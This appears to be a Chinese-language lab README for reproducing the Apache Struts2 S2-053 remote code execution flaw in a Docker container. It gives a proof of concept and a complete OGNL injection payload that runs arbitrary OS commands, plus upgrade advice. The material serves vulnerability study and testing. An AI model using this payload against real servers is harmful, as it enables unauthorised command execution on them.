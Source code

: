 ## Struts2 Freemarker tags 远程代码执行漏洞(S2-053)环境

### 漏洞信息

 * [S2-053 公告](https://cwiki.apache.org/confluence/display/WW/S2-053)

### 获取环境:

1. 拉取镜像到本地

 ```
$ docker pull medicean/vulapps:s_struts2_s2-053
 ```

2. 启动环境

 ```
$ docker run -d -p 80:8080 medicean/vulapps:s_struts2_s2-053
 ```
 > `-p 80:8080` 前面的 80 代表物理机的端口，可随意指定。 

### 使用与利用

访问 `http://你的 IP 地址:端口号/`

#### PoC

1. 访问 Demo 页面, 随便输入值，可看到页面输出我们提交的值

 ![](https://github.com/Medicean/VulApps/raw/master/s/struts2/s2-053/poc-1.png)

2. 在输入框中输入 `%{100-3}`，然后提交，发现 `%{}` 中的表达式被执行

 ![](https://github.com/Medicean/VulApps/raw/master/s/struts2/s2-053/poc-2.png)

#### Exp

命令执行 Exp(有回显):

```
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(@org.apache.commons.io.IOUtils@toString(#process.getInputStream()))}
```

替换Exp中的 `(#cmd='whoami')` 中的命令即可

 ![](https://github.com/Medicean/VulApps/raw/master/s/struts2/s2-053/exp-1.png)

### 修复建议

升级Apache struts 至 2.5.12 版本 或者 2.3.34 版本

### 参考链接

* [S2-053 公告](https://cwiki.apache.org/confluence/display/WW/S2-053)
* [S2-053 复现分析过程(附POC) - 猎户攻防实验室](https://mp.weixin.qq.com/s/4CiKgVn7Y-hWUKRjgECsuA)
